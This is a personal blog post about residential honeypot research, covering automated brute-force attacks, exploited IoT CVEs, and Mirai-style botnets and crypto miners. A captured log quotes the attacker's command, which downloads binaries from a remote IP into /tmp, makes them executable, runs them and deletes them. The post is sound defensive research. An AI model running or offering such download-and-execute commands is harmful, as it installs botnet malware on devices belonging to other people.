





Blog: Yesterday's Router, Today's Pivot!
description: Hunting Residential Threats and Fighting Automated Botnets
date published: 2025-05-29 | date updated: 2025-05-29

Residential Threat Hunting and the War on Automated Threats and Botnets By: Oak Atsume
Introduction
My goal with this project was simple: to understand what kind of threats are actually hitting people like you and me. Most cybersecurity research focuses on big enterprise or industrial infrastructure. But what about our homes, our routers, our smart devices?
I believe the residential space deserves more attention. That’s where real people live, and where real threats land. And guess what? Monitoring a home network gives us an unfiltered look into what’s going on across the Internet. (Spoiler: it’s a lot of Mirai and Crypto miners)
Someone's knocking...
Since I started running a honeypot in a residential network, one thing became clear: we're under constant attack!
Governments like to point fingers at China, Russia, North Korea. But in reality, it's often more mundane. The biggest threat to our digital lives may not be a foreign nation, but instead the negligence of vendors and users alike!

Who's Knocking, and What are they doing??
The vast majority of attacks I observed targeted Unix-like devices, Routers, IP Cameras, NAS Boxes, etc.
The attackers typically rely on two approaches:
-
Brute Force Attacks on SSH/TELNET credentials.

-
Exploitation of known vulnerabilities in outdated devices.

It's not sophisticated, but it doesn't have to be! It only takes one vulnerable device to give an attacker a foothold.
Notably used CVEs
- CVE-2024-6047 - Command injection for GeoVision IoT systems
- CVE-2024-4577 - CGI argument injection in PHP (can lead to RCE)
- CVE-2023-1389 - Command injection in TP-Link Archer AX-21 routers
And more!
These aren't "zero-days". They're simply still relevant because companies don’t patch, and users don’t update!
That's the real threat here.
They’re In. Now What?
Once attackers gain access, they typically drop one of three things:
- A variant of Mirai or Gafgyt to enroll the device into a botnet
- A cryptocurrency miner (usually XMRig)
- A downloader script to fetch more malware
{
"ip": "176.65.148.181",
"port": 2222,
"country": "Germany",
"city": null,
"lat": 51.2993,
"lon": 9.491,
"firstSeen": 1745895007,
"lastSeen": 1745895015,
"loginPasswordAttempts": [
{
"timestamp": 1745895011,
"username": "root",
"password": "admin"
}
],
"loginKeyAttempts": [
],
"executedCommands": [
{
"timestamp": 1745895014,
"command": "cd /tmp; wget 209.141.34.106/PangaKenya/KKveTTgaAAsecNNaaaa.x86_64; chmod +x KKveTTgaAAsecNNaaaa.x86_64; ./KKveTTgaAAsecNNaaaa.x86_64 ; rm -rf KKveTTgaAAsecNNaaaa.x86_64; wget 209.141.34.106/PangaKenya/KKveTTgaAAsecNNaaaa.x86; chmod +x KKveTTgaAAsecNNaaaa.x86; ./KKveTTgaAAsecNNaaaa.x86 ; rm -rf KKveTTgaAAsecNNaaaa.x86",
"successful": true
}
],
"uploadedFiles": [
],
"downloadedFiles": [
{
"timestamp": 1745895014,
"filename": null,
"sha": "811cd6ebeb9e2b7438ad9d7c382db13c1c04b7d520495261093af51797f5d4cc"
},
{
"timestamp": 1745895014,
"filename": null,
"sha": "9ac2e308b0b30354575bba88169283fa7439d34937a148ccb390bcec3c6e296b"
}
]
}
Example of an observed log.
Often, these devices aren’t the end goal—they’re stepping stones. Your router becomes someone else’s launchpad. A pivot point for scanning, attacking, or anonymizing future activity.
The Bots Are Winning
These threats aren’t launched by people sitting at a keyboard. What I’m observing is an entirely automated threat landscape.
The cycle looks like this:
- Scan
- Fingerprint
- Exploit
- Drop malware
- Monetize
- Move on
If it fails? No problem. Move to the next IP. It’s a numbers game, and the bots play it well.
From Curiosity to Chaos
Over the weeks I’ve been running this honeypot, a clear pattern has emerged:
- A new, easy-to-exploit CVE appears
- A fresh botnet variant (often Mirai-based) emerges to exploit it
- It spreads rapidly, monetizing devices along the way
It happens fast. In days. The ecosystem is efficient, ruthless, and almost entirely unsupervised.
Final Thoughts
Our homes are on the frontlines of a silent war. And the scariest part? Most people have no idea it’s happening.
If this project has taught me anything, it’s this: residential cybersecurity deserves more attention. Not just for the sake of privacy or convenience, but because our homes are being conscripted into someone else’s cyberwar.
We may not be able to stop every attack, but we can do something even more powerful: understand them. And understanding is the first step toward fighting back.

Break-Thru, I acknowledge this blog is very boring lol; but it's meant to be formal. Hopefully if I have more time I will make some more that are fun!